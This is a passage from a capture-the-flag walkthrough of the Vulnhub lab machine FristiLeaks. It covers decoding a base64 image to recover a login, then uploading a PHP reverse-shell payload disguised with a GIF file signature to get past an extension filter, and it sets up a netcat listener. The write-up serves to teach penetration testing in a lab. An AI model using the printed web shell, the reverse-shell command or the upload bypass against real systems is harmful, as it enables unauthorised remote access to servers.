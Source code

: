 and then running it through the Linux built in base64 utility reveals junk

```bash
base64 -d infile
```

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\FristiLeaks\junk.png)

but what we can see is that the File Signature at the top is the default PNG file signature, which makes sense because all of the images on the site are encoded in base64.  So changing the file extension to end in PNG and then opening the file reveals the following image:

```bash
mv tmp tmp.png
```

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\FristiLeaks\hidden.png)

Now this could be a lot of things, a filename located on the service, a directory, or a password, and the first thing that came to mind was a User/Pass combination of this text, and the user `eezeepz`. 

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\FristiLeaks\login.png)

* **Note** *the beautiful plaintext password field*

sending off the request with the new login details reveals a new page `login_success.php` and 

a redirect to the `upload.php` page previously denied access to.

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\FristiLeaks\upload.png)

The site presents us with an upload button, and a browse button and prompts an image upload.  My first reaction is to upload a PHP file with code in it to spawn a reverse shell.  Create a new file, add this code in, and upload it to the server and hope.

```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.80.129/1234'");?>
```

I didn't expect it to be that easy and it wasn't, we are greeted with an error page indicating that the only allowed file extensions are `png`, `jpg`, and `gif`.  This however is a very easy workaround, we can just prepend the GIF File Signature to the beginning of our shellcode, and then name it GIF and be on our way.

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\FristiLeaks\doupload.png)

That was an easy bypass, now all that needs to be done is to include the file on the server, and spawn a reverse shell.  In order to receive the connection from the server we need to begin listening on the specified  IP and port that is in our shellcode. 

```bash
nc -lvnp 1234
l: listen
v: verbose
n: numeric-ip only
p: specified port
```
